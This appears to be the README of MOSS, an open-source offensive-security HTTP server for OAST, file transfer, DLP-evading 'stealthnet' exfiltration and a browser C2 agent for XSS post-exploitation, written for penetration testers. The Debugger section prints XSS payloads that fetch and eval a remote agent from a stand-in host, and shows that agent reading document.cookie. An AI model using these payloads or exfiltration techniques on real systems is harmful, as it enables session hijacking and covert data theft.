




# MOSS (Modular Offensive Security Server)

A multifunctional web server for offensive security testing. Cut time during engagements and bug bounty!

## Use Cases

OAST, Exfiltration, Pastebin, Automation, XSS Post-Exploitation, and Honeypot.

- **Out-of-Band Application Security Testing (OAST)** for testing SSRFs and blind RCE/SQLi/XXE/XSS
- **File Server and Upload** for transferring files during engagements.
- **End-to-End Encrypted Pastebin** for secure data transfer.
- **Browser-Based C2 Agent** for XSS post-exploitation
- **Automation and Exploit Development** via a programmatic interface and structured JSONL output
- **HTTP Honeypots** (maybe), with socket-level reporting

The general intended use is to host this on a VPS (with tmux) or— in case you're testing an internal network— your own machine.

## Features

- [x] custom response
    - [x] customise status, headers, body
    - [x] gzip static files to save bandwidth and load stuff faster (`--gzip`)
- [x] OAST features
    - [x] match/filter interesting requests by regex (`--filter`)
    - [x] extract correlation ID by regex (`--correlation`)
- [x] comprehensive JSONL logging
- [x] cool network shenanigans:
    - [x] polyglot HTTP (supports both HTTP/HTTPS on the same port) (`--https`)
    - [x] log HTTP anomalies (unsupported method, bad version, potential port scan, and more)
    - [x] detects HTTP protocol variants (HTTP proxy, HTTP proxy over SSL, HTTPS tunnel proxy) (NOTE: currently only detects, but doesn't parse or follow through)
- [x] websocket OAST support (`-e websocket`)
- [x] modular extensions, include what you need
    - [x] send notifications to **Discord** webhook on match (`-e notify`)
    - [x] protect endpoints with **auth** middleware (basic, bearer) (`-e auth`)
    - [x] in-memory **pastebin** (with end-to-end encryption) (`-e pastebin`)
    - [x] robust **stealthy** exfiltration module customisable via a JSON DSL (`-e stealthnet`)
    - [x] serve/upload files (`-e file`)
    - [x] remote JS debugging, or in other words, a browser-based C2 agent (`-e debugger`)
- [x] store settings in a **config file** to keep your command line clean (`@config.txt`)
- [x] **block** nosy scanners to reduce noise (`--block-scanners`)
- [x] DoS protection (hopefully)

Additional Perks:

- [x] zero dependencies! (pure Python)[^deps]
- [x] core OAST comes in a single Python file; easy to setup, easy to configure, easy to hack(?)
- [x] pretty ANSI colours!

[^deps]: Zero dependencies... with the exception of some optional packages to enhance your experience. (Check pyproject.toml or noodle around to find out more.)

## I Don't Want to Read All This! (Quick Start)

Fine fine. Here are some opinionated ways to run MOSS.

> [!IMPORTANT]
> MOSS requires Python 3.10 or above.

### Single File, Just OAST

```shell
wget https://github.com/TrebledJ/moss/blob/main/moss.py
python3 moss.py
```

Done. This spins up a HTTP listener on port 8000, enough for simple OAST.

No hassle. Quick-n-dirty. Simple.

### via pip

```shell
pip install git+https://github.com/TrebledJ/moss
moss
```

This installs MOSS as a Python package, and also conveniently supplies it as a command. This is the quickest way to run MOSS with all pre-packaged extensions.

To install a specific version:

```shell
pip install git+https://github.com/TrebledJ/moss@v0.8.2
```

### OAST with Opinionated Defaults

```shell
python3 moss.py --status-code 404 --server none --https --certfile server.crt --keyfile server.key
# or:      moss --status-code 404 ...
```

See [HTTPS Support](#https-support) on how to generate certificate files.

### Offensive Toolkit

Includes: OAST, File Server, Upload, Pastebin

```python
moss "@config.txt" --filter keyword --simple
```

Save this file to config.txt:
```text
--port 8000

-e auth
-e pastebin
-e file
-e stealthnet
-e websocket

--basic-auth admin:changeme
--block-scanners

# response
--index
--status-code 404
--server none

# protocol
--https
--certfile server.crt
--keyfile  server.key

# files
--file-directory [[memory]]
--file-url-path /static
--file-index

# stealth
--stealth-profile profile.json
--stealth-no-validate

# notifications (optional)
# -e notify
# --notify discord
# --notify-on match
# --webhook-url https://discord.com/api/webhooks/1111/xxxx
```

### XSS Post Exploitation

```shell
moss -e debugger --debugger-key mypassword --no-log --server none --https --certfile server.crt --keyfile server.key
```

## CheatSheet

You may be interested in these other options:

- Important OpSec Stuff
    - `--server none`: Override default server header
    - `--https --certfile ... --keyfile ...`: Enable HTTPS polyglot (see the section [HTTPS Support](#https-support))
    - `-e auth --basic-auth moss:isawesome`: Protect other extensions with auth
- Basic Stuff
    - `-p 80`: Custom port
    - `--status-code 404`: Default response status
    - `-H 'X-Frame-Options: DENY'`: Default headers
    - `--body '<h1>Hello World</h1>'`: Default body
    - `--filter /api/v1/callback`: Filter specific requests
    - `--simple`: Simple logging (one line per event)
    - `--jsonl output.jsonl`: Output events in JSONL format
- Extension Stuff
    - `--index`: Enable an index page which displays available services (recommend using with `-e auth`)
    - `-e ./mycustomext.py`: Custom extensions
    - `-e pastebin`: Enable pastebin and access it at `http://127.0.0.1:8000/pastebin`
    - `-e file`: Enable file/upload server
        - `--file-index`: Enable with directory listing
        - `-d path/to`: Serve files from/at a path
    - Discord notifications!
        ```shell
        moss -e notify --filter 'password=' --notify discord --notify-on match --webhook-url https://discord.com/api/webhooks/.../...
        ```
    - `-e stealthnet`: Enable a stealthy upload service and access it at `http://127.0.0.1:8000/sneakers`


## Options

Explore a plethora of options!

```
python3 moss/moss.py -e auth pastebin debugger file notify stealthnet websocket -h
usage: moss.py [-h] [--ext EXT [EXT ...]] [--version] [-v] [--bind HOST]
               [--port PORT] [--host HOSTNAME] [--server SERVER_HEADER]
               [--header HEADERS] [--minify-js] [--gzip]
               [--status-code DEFAULT_STATUS_CODE]
               [--mime-type DEFAULT_MIME_TYPE] [--body DEFAULT_BODY]
               [--index] [--filter FILTER_REGEX]
               [--correlation CORRELATION_REGEX] [--output-all]
               [--show-common-headers] [--jsonl JSONL_FILE] [--no-anomaly]
               [--no-log] [--simple] [--https] [--https-only]
               [--certfile CERTFILE] [--keyfile KEYFILE]
               [--block-scanners] [--optimise-mode {performance,security}]
               [--token-auth TOKEN_AUTH] [--basic-auth BASIC_AUTH]
               [--pastebin-path PASTEBIN_PATH]
               [--pastebin-fixed PASTEBIN_FIXED]
               [--pastebin-store-password-in-browser PASTEBIN_STORE_PASSWORD_IN_BROWSER]
               [--pastebin-password PASTEBIN_PASSWORD]
               [--debugger-path DEBUGGER_PATH] [--debugger-no-input]
               [--debugger-id-length DEBUGGER_RANDOM_ID_LENGTH]
               [--debugger-minify-js] [--debugger-key DEBUGGER_KEY]
               [--file-url-path FILESERVER_URL_PATH]
               [--file-directory DIRECTORY]
               [--upload-url-path UPLOAD_URL_PATH]
               [--upload-dir UPLOAD_DIR] [--max-size MAX_SIZE]
               [--file-index] [--stealth-path STEALTH_PATH]
               [--stealth-profile STEALTH_PROFILE_PATH]
               [--stealth-no-validate]
               [--stealth-upload-to STEALTH_UPLOAD_TO] [--ws-path WS_PATH]
               [--websocket-tester WEBSOCKET_TESTER] [--notify {discord}]
               [--notify-on {match,correlation,anomaly,all}]
               [--webhook-url WEBHOOK_URL] [--id IDENTIFIER]

Simple, modular offensive HTTP server by TrebledJ, v0.8.2

options:
  -h, --help            show this help message and exit
  --ext, -e EXT [EXT ...]
                        Load extensions (Python files). Works with bash
                        file glob/expansion, e.g. -e ext/{file,upload}.py
                        (default: [])
  --version, -V         show program's version number and exit
  -v                    Verbosity. -v for INFO, -vv for DEBUG messages.
                        (default: 0)
  --bind, -b HOST       Bind to this address (e.g. 0.0.0.0 to listen on
                        all interfaces; 127.0.0.1 to listen only on
                        localhost) (default: 0.0.0.0)
  --port, -p PORT
  --host, --hostname HOSTNAME
                        Hostname which resolves to the server (e.g.
                        example.com). This is completely optional and used
                        by some extensions to resolve the host (default:
                        None)

response:
  --server SERVER_HEADER
                        Server header in response. Special values: random,
                        none (default: moss
                        (https://github.com/TrebledJ/moss))
  --header, -H HEADERS  Headers to include in server output. You can
                        specify multiple of these, e.g. -H 'Set-Cookie:
                        a=b' -H 'Content-Type: application/json' (default:
                        [])
  --minify-js           Enable minification on large JavaScript responses
                        (default: False)
  --gzip                Enable gzip on static file extensions for lower
                        network latency (default: False)
  --status-code, -S DEFAULT_STATUS_CODE
                        The default status code to return (default: 200)
  --mime-type, -M DEFAULT_MIME_TYPE
                        The default mime type to return (default:
                        text/html)
  --body DEFAULT_BODY   The default content to return. This could be a
                        file, which will be loaded (default: )
  --index               Enable an index page which lists the services
                        enabled (default: False)

matching:
  --filter FILTER_REGEX
                        Match request line, headers, or body (supports
                        multiple filters, OR'd) (default: [])
  --correlation, -r CORRELATION_REGEX
                        Extract correlation ID based on regex, this works
                        independently of the filter (default: )

logging:
  --output-all          Output all HTTP requests, including those that
                        don't match the filter (default: False)
  --show-common-headers
                        Show common request headers (Accept, Cache-
                        Control, etc.) in display. By default these are
                        hidden. This does not affect jsonl output
                        (default: False)
  --jsonl, -o JSONL_FILE
                        Output file path for JSONL logging (one JSON event
                        per line). Use `--jsonl -` to output to stdout
                        (default: None)
  --no-anomaly          Do not log anomalies (default: False)
  --no-log              Do not log anything entirely (default: False)
  --simple              Use simple logging, one line per event (default:
                        False)

https:
  --https               Enable HTTPS polyglot support (default: False)
  --https-only          Force HTTPS, ignore raw HTTP (default: False)
  --certfile CERTFILE   Public key (default: None)
  --keyfile KEYFILE     Private key (default: None)

security:
  --block-scanners      Enables automatic blocking of IPs which behave
                        like scanners. To unblock, restart the server lol
                        (default: False)
  --optimise-mode {performance,security}
                        In 'performance' mode, calling .read() on a Python
                        socket file object will block until ALL bytes are
                        read. This exposes the server to potential RUDY
                        attacks, which keeps connections open by trickling
                        one byte at a time. Using the 'security' option
                        mitigates this, but with lower performance (either
                        from a larger memory footprint or from a longer
                        time parsing requests). You shouldn't really need
                        to specify this unless you're tuning MOSS for high
                        upload throughput. See Note [read buffers].
                        (default: security)

auth (ext/auth.py):
  --token-auth TOKEN_AUTH
                        Use the provided bearer token. Special values:
                        generate (generates a token which will be printed
                        to console or can be programmatically fetched via
                        a method) (default: None)
  --basic-auth BASIC_AUTH
                        Basic authentication in the format
                        username:password (default: None)

pastebin (ext/pastebin.py):
  --pastebin-path PASTEBIN_PATH
                        HTTP path which accepts pastebin payloads
                        (default: /pastebin)
  --pastebin-fixed PASTEBIN_FIXED
                        Write the pastebin to a fixed path (default: None)
  --pastebin-store-password-in-browser PASTEBIN_STORE_PASSWORD_IN_BROWSER
                        Save the encryption password to browser
                        localStorage in PLAIN TEXT. The string passed to
                        this argument will be used as the localStorage
                        key. NOTE: This option has been provided for
                        convenience. (default: )
  --pastebin-password PASTEBIN_PASSWORD
                        Hardcode a password for pastebin encryption. NOTE:
                        This option has been provided for convenience and
                        essentially nullifies end-to-end encryption.
                        (default: None)

debugger (ext/debugger.py):
  --debugger-path DEBUGGER_PATH
                        URL path for the interactive debugger JS payload.
                        Use {RANDOM} to insert a random ID in the path
                        (default: /debugger/{RANDOM})
  --debugger-no-input   Disable the TUI input thread (for testing)
                        (default: False)
  --debugger-id-length DEBUGGER_RANDOM_ID_LENGTH
                        The length of the random ID. Consider using the
                        --block-scanners flag to mitigate against brute-
                        forcing. Set to 0 to replace {RANDOM} with nothing
                        (default: 6)
  --debugger-minify-js  Minify the debugger JS payload using rjsmin
                        (default: False)
  --debugger-key DEBUGGER_KEY
                        Enable AES-256-GCM-style encryption with this
                        passphrase (SHA-256 hashed, stdlib-only) (default:
                        )

fileserver (ext/file.py):
  --file-url-path FILESERVER_URL_PATH
                        The HTTP base path to access files. A base path of
                        /static means files can be accessed through
                        http://HOSTNAME:PORT/static (default: /files)
  --file-directory, -d DIRECTORY
                        The local directory to serve files from, or
                        [[memory]] for in-memory mode (default:
                        [[memory]])
  --upload-url-path UPLOAD_URL_PATH
                        HTTP path which accepts upload payloads (default:
                        /upload)
  --upload-dir, -ud UPLOAD_DIR
                        Directory to store uploaded files (default: same
                        as --file-directory) (default: None)
  --max-size MAX_SIZE   Max upload file size in bytes (default: 10485760)
  --file-index          Enable an index page listing files within the
                        directory (default: False)

stealthyupload (ext/stealthnet.py):
  --stealth-path STEALTH_PATH
                        HTTP path which accepts upload payloads (default:
                        /sneakers)
  --stealth-profile STEALTH_PROFILE_PATH
                        The stealth profile to use (default: profile.json)
  --stealth-no-validate
                        Skip JSON schema validation. I too like to live
                        dangerously. Note that passing this option does
                        not suppress profile parsing errors, such as
                        missing variables. (default: False)
  --stealth-upload-to STEALTH_UPLOAD_TO
                        Store uploaded files in this directory (default:
                        dest)

websocket (ext/websocket.py):
  --ws-path WS_PATH     Specific path for WebSocket connections (default:
                        any path) (default: )
  --websocket-tester WEBSOCKET_TESTER
                        Serve the WebSocket tester HTML page at this path
                        (e.g. /wstest). Default: disabled (default: None)

notifications (ext/notify.py):
  --notify {discord}    Enable third-party notifications (default: None)
  --notify-on {match,correlation,anomaly,all}
                        You can pass multiple choices, for example:
                        `--notify-on match --notify-on anomaly`. "all"
                        means notify on match/correlation/anomaly. Default
                        is all. (default: [])
  --webhook-url WEBHOOK_URL
                        Webhook URL (default: None)
  --id IDENTIFIER       An identifier which will be sent along with the
                        notification, primarily to help you identify this
                        instance in case you have multiple running. An id
                        will be automatically generated if not provided
                        (default: None)                                               
```


## Available Extensions

The `ext/` folder contains several extensions which double as examples to get you started on extension development.

- `ext/auth.py` - Safeguard your subsequent processors with simple authentication middleware (Basic or Bearer token).

    > [!CAUTION]
    > Note: You MUST specify this extension **before** the extensions you want to protect.
    > For instance, `-e auth file` will protect your file/upload endpoints with auth.
    > But `-e file auth` will not.
    
    You can also take advantage of this "ordering" feature to expose unauthenticated features.

- `ext/debugger.py` - Interactive JS debugging agent / browser C2. Serves a JS payload which regularly polls MOSS for pending commands and POST results back. Supports encryption, collections (`/run`, `/load`), multi-browser targeting, and a TUI. See [docs/ext/DEBUGGER.md](docs/ext/DEBUGGER.md) and [Motivation](#debugger-vs-beef).
- `ext/file.py` - Combined file server and upload server with in-memory and on-disk
    storage. Supports file serving, uploads, and directory listing.
- `ext/notify.py` - Third-party webhook notifications, allowing basic filtering by event type. Currently supports Discord.
- `ext/pastebin.py` - End-to-end-encrypted pastebin service. Supports both browser-side (AES-GCM/AES-CBC via Web Crypto API) and server-side encryption fallback for HTTP access.
- `ext/stealthnet.py` - Stealthy upload service with a customisable JSON DSL profile. Chunkifies data and smuggles it out via HTTP requests; useful for bypassing DLP restrictions.
- `ext/websocket.py` - WebSocket OAST. Handles WS upgrade, logs incoming TEXT/BINARY frames as structured events through the standard pipeline. Supports WSS (TLS), path restriction via `--ws-path`, and a built-in tester page via `--websocket-tester`.

PRs are also welcome to contribute new extensions.

## Examples

The `examples/` folder contains standalone scripts that demonstrate common usage patterns using MOSS's programmatic API:

| File | Description |
|------|-------------|
| `example_extension.py` | Reference extension exercising every major MOSS API: Mixin (CLI flags, `__post_init__`), Processor (GET/POST/fallback dispatch), Handler (custom event consumption). Use `moss -e ./examples/example_extension.py` to load. |
| `rce_curl.py` | RCE curl file exfiltration — starts MOSS with `-e file -d [[memory]]`, sends curl commands to a mock compromised target, captures uploaded files via `server.files`. |
| `mock_rce_target.py` | Mock RCE server for testing `rce_curl.py` — executes curl commands via `os.system` on a designated port. |
| `xxe_exfil.py` | Blind XXE OOB detection — serves a malicious DTD via `serve_file()`, sends an XXE payload to target, waits for OOB callbacks. |
| `mock_xxe_server.py` | Mock XML parser endpoint that fetches external DTDs — used with `xxe_exfil.py`. |
| `cve_2026_21967.py` | SSRF callback detector with per-target correlation IDs, `--lhost` for public callback hostname/IP. |
| `mock_opera_server.py` | Mock server for testing Opera mini proxy detection. |

Example of cve_2026_21967.py and mock_opera_server.py in action:




## Pastebin

Recommended Command:

```shell
moss -e auth pastebin \
    --basic-auth your:password \
    --simple --server random \
    --https --certfile ... --keyfile ...
```

<!-- TODO: screen record -->



Using the `pastebin` extension with `auth` provides two layers of password protection.

1. The first layer (`auth` module) is to protect against unauthorised access to the `/pastebin` URL.
2. The second layer (`pastebin`'s end-to-end encryption) is to protect against MITM whether it's malicious or blue team.
    
    By using a password which is not sent across the network, we ensure that eavesdroppers don't have access to the data. Of course, this only holds if the pastebin password is different from the auth password.

    This is important even when HTTPS is enabled. If you're in a red team engagement exfiltrating from a victim machine, there is the possibility deep packet inspection will pick up the goodies. Let me rephrase... Even in HTTPS, traffic can still be decrypted by those who hold the right keys/certificates. There is also the possibility of a [compromised/malicious CA](https://sslmate.com/resources/certificate_authority_failures) intercepting data.

## Stealthy Upload (StealthNet)

Recommended Command:

```shell
moss -e auth stealthnet file \
    --basic-auth your:password \
    --index --file-index -d dest \
    --stealth-profile profile.json \
    --simple --server random \
    --https --certfile ... --keyfile ...
```

<!-- TODO: screen record -->



Stealthnet is the working title of a stealthy upload module, which may come in handy for bypassing DLP restrictions, at the cost of slower upload speed. The file is broken down into multiple chunks, encoded/encrypted, inserted into various parts of a HTTP request, then reassembled on the server. Larger files are broken down and sent separately across multiple requests.

The traffic is customisable by defining a *profile* using a JSON DSL (domain-specific language). The profile will be understood by both the frontend and backend, providing a common interface to specify requests and headers.

Some use cases:
- Deliver large files by chunking and using minimal delay
- Mimic and blend in with existing web traffic for stealthier exfiltration

MOSS pre-packages several profiles, which can be specified via `--stealth-profile FILE`:

- `profile.json` - default, resembles a web app with an API
- `chunk5kbget.json` - sends 5 KB per GET request, minimal delay
- `chunk100kb.json` - sends 100 KB per POST request, minimal delay

More details can be found in [docs/ext/STEALTHNET.md](docs/ext/STEALTHNET.md).

Sample profile:

```jsonc
{
    "metadata": {
        // Profile metadata goes here.
        "version": 20260101,
        "description": "Sample profile."
    },
    "encryption": {
        // Encrypt the data before sending. Currently only XOR encryption is offerred.
        "type": "xor",
        "key": "asldf01lk2nlk-EU9J1LJ3R'A-091;,91G[1.DUB81KENHjfog8lkn10)(JGjgoi"
    },
    "vars": [
        // Define variables to be substituted into requests.
        {
            "name": "api",
            "type": "cycle",
            "items": [
                "users",
                "comments",
                "posts",
                "author",
                "links"
            ]
        }
    ],
    "common": {
        // Define common headers here.
        "headers": {
            // State metadata (e.g. the index of the current chunk) can be substituted.
            // The server intelligently parses out the embedded substitutions.
            "X-Filename": "asdf${state:filename}vbnm",
            "X-Checksum": "${state:checksum}",
            "X-Range": "${state:currentIndex} - ${state:finalIndex} / ${state:retries}",
            // Common headers can also include data substitutions.
            // The server will automatically convert encoded data back to its original form.
            "X-Data": "${b64:400}"
        }
    },
    "intermittent": [
        // Requests here fire every X seconds.
        {
            "every": [
                5000,
                10000
            ],
            "req": 
                {
                    "method": "POST",
                    "url": "/telemetry",
                    "headers": {
                        "Content-Type": "application/json",
                        "Accept": "application/json"
                    },
                    "body": "{\"action\":\"${var:uiAction}\",\"events\":\"${b64:20000:40000}\"}"
                }
            
        }
    ],
    "cycle": [
        // Requests here will fire sequentially.
        // You can specify a custom random delay between requests.
        {
            "count": [1, 1],
            "delay": [100, 500],
            "req": [
                {
                    "repeat": [4, 6],
                    "method": "GET",
                    "url": "/api/v1/${var:api}"
                },
                // ...
            ]
        }
    ]
}
```

## Notifications

Recommended Command:

```shell
moss -e notify \
    --filter youroastfilter \
    --notify discord --notify-on match \
    --webhook-url https://discord.com/api/webhooks/.../... \
    --server random \
    --https --certfile ... --keyfile ...
```

<!-- TODO: screen record -->

This is a simple notification extension. Probably more verbose than is needed. But it does the job.

Currently only Discord is supported.

PRs welcome.

## Debugger

Recommended Command:

```shell
pip install prompt_toolkit jsonschema

moss -e debugger \
    --debugger-key mypassword \
    --no-log --server random \
    --https --certfile ... --keyfile ...
```



Debugger is an extension for XSS post-exploitation, as such the guide presumes you have discovered an XSS vector as a prerequisite.

First, start the server.

```shell
moss -e debugger
```

Then inject the JS payload into a browser context:

```html
<script src="http://example.com:8000/debugger/{RANDOM}"></script>
<script>import("http://example.com:8000/debugger/{RANDOM}")</script>
javascript:fetch("http://example.com:8000/debugger/{RANDOM}").then(r => r.text()).then(code => eval(code))
```

Once the JS runs, the TUI prompt shows `debug [1 conns]> `.

Now you can interact with the agent by entering a JS expression:

```text
debug [1 conns]> document.cookie
```

When the agent polls the server, the server responds with pending payloads. The agent then `eval`s the payloads and sends the results back to the server:

```text
 ✓ [2026-05-23 07:42:00] (document.cookie) (browser1) sessionid=abc123
```

More details can be found in [docs/ext/DEBUGGER.md](docs/ext/DEBUGGER.md).

## HTTPS Support

When `--https` is specified, HTTPS will be enabled on the same port. This means the same port provided by `-p` will support HTTP _and_ HTTPS. This polyglot support primarily exists for convenience. You only need to remember one port. Of course, if you want separate ports, you are free to spin up the servers to your liking. And if you want to force HTTPS, you can use `--https-only`.

There are two ways to quickly obtain HTTPS certs:

1. Use Let's Encrypt / certbot (ref: https://certbot.eff.org/instructions?ws=other&os=pip). This option is best when hosting on a VPS where you can set public a DNS name.

    ```shell
    sudo python3 -m venv /opt/certbot/
    sudo /opt/certbot/bin/pip install --upgrade pip
    sudo /opt/certbot/bin/pip install certbot
    sudo ln -s /opt/certbot/bin/certbot /usr/local/bin/certbot
    sudo certbot certonly --standalone
    ```

    You may need to play around with permissions to get this to work.

    ```shell
    sudo moss --https --certfile ... --keyfile ...

    # or

    cp /etc/letsencrypt/live/example.com/{fullchain,privkey}.pem .
    sudo chown $USER:$USER {fullchain,privkey}.pem
    moss --https --certfile fullchain.pem --keyfile privkey.pem
    ```

2. Alternatively, you can generate self-signed certs using `openssl`:

    ```shell
    openssl req -new -x509 -nodes -days 365 -out server.crt -keyout server.key -sha256
    ```

    The downside is that, as mentioned, this is a **self-signed cert**. Of course, it is still possible to use this when testing if you accept the "Insecure Certificate" warnings.

Once you have your certs, use them like so:

```shell
moss --https --certfile /etc/letsencrypt/live/example.com/fullchain.pem --keyfile /etc/letsencrypt/live/example.com/privkey.pem
# or
moss --https --certfile server.crt --keyfile server.key
```

## Extensions

MOSS is designed to be modular and extensible. Extension modules can be scripted in vanilla[^vanilla] Python to extend MOSS's CLI/API.

[^vanilla]: Vanilla, in this case, means code written purely with built-in Python modules, without the need to download additional modules or to import this project itself (i.e. no `import moss` is needed in extensions).

### Writing Extensions

(TODO: Diagram)

Extensions can declare classes to introduce new behaviour, HTTP processing, and event handling to MOSS. Classes named with these suffixes will be loaded:

- `*Mixin`: This extends the `HttpMossServer` class by exposing new APIs for automation and adds new fields to `req.server`. For instance, `ext/file.py` adds a `serve_file()` method, allowing you to dynamically serve a file, such as an XXE payload.
- `*Processor`: This processes requests, ideal for modifying request attributes and customising HTTP responses.
- `*Handler`: This handles events within a single thread. Examples of events are incoming requests, anomalies, or user-defined JSON. Useful for writing to files, logging, notifications, etc.

If none of this suits you, you could consider inheriting existing classes such as `MossRequestHandler` and override methods for further customisation.


## Programmatic API

For your custom scripts and automation ventures. See `examples/` for working scripts that use MOSS as a library.

Async API is in the works.

## Motivation

### Why MOSS for OAST?

**Flexibility.** Interactsh forces correlation IDs into subdomains. MOSS lets you place them anywhere — path, header, body, or query string — via a configurable regex (`--correlation`). You're not locked into a fixed workflow.

**No domain required.** Interactsh needs a domain with wildcard DNS. MOSS works with just an IP or any hostname, making it viable for testing where DNS isn't configurable, such as validating an SSRF/RCE in an internal network pentest.

**Programmatic API.** MOSS exposes a Python API for automation scripts (see [`examples/`](#examples)).

**Extensible.** Add auth, pastebin, file serving, or custom handlers with `-e`.

**Socket-level telemetry.** Anomaly detection, port scans, raw TCP logging.

See other features outlined in this doc. 

### MOSS Debugger vs BeEF

The `debugger` extension is a lightweight alternative to [BeEF](https://beefproject.com/) (Browser Exploitation Framework):

- **Quick to setup.** Just need a couple Python files.
- **Focused.** Remote browser command execution and result polling. No module system, no persistence layer.
- **Built-in encryption.** XOR+MAC encryption with SHA-256 key derivation. No external crypto library needed.
- **TUI for control.** Interactive prompt for sending commands, targeting browsers, loading script collections.

If you need advanced browser exploitation (network discovery, persistent hooks, Metasploit integration), BeEF is the right tool. If you need a quick eval-based C2 agent for XSS testing or remote debugging, MOSS's debugger gets you there in seconds.

### Trade-offs

- MOSS does not natively support DNS, SMTP, or LDAP callbacks. interactsh and Burp Collaborator do.
- MOSS is not a full intercepting proxy — it's focused on OOB detection and extensible automation.

I still use interactsh and Burp Collaborator; they're great tools. But tools have a time and place, and it's nice to have a choice. You wouldn't use a hammer to cut an apple.

## Warnings

> [!WARNING]
> While MOSS is hardened against security attacks, the implementation still shares similarities with Python's built-in `http.server` which is known to be *not intended* for production. Use at your own risk.

> [!WARNING]
> MOSS is not intended to be used with reverse proxies.

## Disclaimer

> [!WARNING]
> This tool is intended for authorised and ethical purposes only. The developers of this tool are not liable for any damages, legal consequences, or loss of data resulting from the use or misuse of this tool. Users are solely responsible for ensuring compliance with applicable laws and regulations.

> [!WARNING]
> This code is provided "as is" without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software. Use at your own risk.


## TODOs

- [x] project: tests
- [ ] project: automation examples
- [ ] automation(correlation): issue server-to-client correlation IDs in HTTP response
- [ ] automation(correlation): register filters/matchers dynamically, and await for match
- [ ] automation: async programmatic API
- [ ] protocol: support ACAO in responses
- [x] protocol: receive and log incoming websocket messages
- [ ] protocol: support HTTP/2 requests
- [ ] protocol: support and comply with HTTP proxy
- [ ] protocol: support and comply with HTTPS Tunnel proxy
- [x] option: filter matches with regex
- [ ] ui: toggle detailed/compressed views with keyboard input
- [ ] ui: anchored status bar, displaying stats, e.g. number of filtered requests, number of anomalies
- [ ] misc: better structured reporting of anomalies and socket-level analysis?
- [ ] misc: encryption, throttling for debugger c2
